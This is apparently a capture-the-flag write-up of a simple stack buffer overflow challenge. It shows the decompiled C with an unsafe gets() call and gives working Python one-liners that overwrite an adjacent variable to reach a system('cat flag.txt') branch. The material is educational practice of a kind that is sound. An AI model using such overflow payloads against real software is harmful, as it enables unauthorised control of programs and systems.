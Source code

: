 Here I was trying to figure out the offset was using a [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) and GDB, but alas.

```
62 will rewrite all

63 = segfault in main()
0x00005555555551e2 in main () -- return function

python -c "print('A'*58 + '\xcb\x51\x55\x55\x55\x55')"
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7AËQUUUU

+60 and +64 (cmp and jne) check if %rax is not equal to %rbp. If it's not, then make the jump (an if statement).
```

After this part, I knew that there was an if-statement at the end that checked if two values were equal to one another. If false, then it would skip the execution, which was the `<system@plt>`. However, I wasn't sure how this would evaluate in C. I tried to compare the binary to previous challenges, but no luck. I went to sleep.

After a night, ainz gave me a hint to look into Ghidra. Woo! Alright, 30 minutes left. loading it up, I realize that Ghidra had the decompiler I was trying to find online. Here's the binary decompiled:
```
undefined8 main(void)

{
  char local_38 [40];
  long local_10;
  
  local_10 = 0xba5eba11;
  printf("What would you like to put in my variable? ");
  gets(local_38);
  if (local_10 == 0xacce55e5) {
    system("cat flag.txt");
  }
  return 0;
}

```

It's very clear now that we just need to overflow the buffer of local_38 in order to change the initialization of local_10. To do this, the offset was `40` and we add the hex value that `local_10` is being checked for. Anyway.

testing:  
I had set up a flag.txt file that just read "opened flag.txt", which was used to confirm that the exploit worked. 
```
$ chmod +x runme
$ python -c "print 'A'*40+'\xe5\x55\xce\xac'" > temp
$ ./runme < temp
opened flag.txt
```

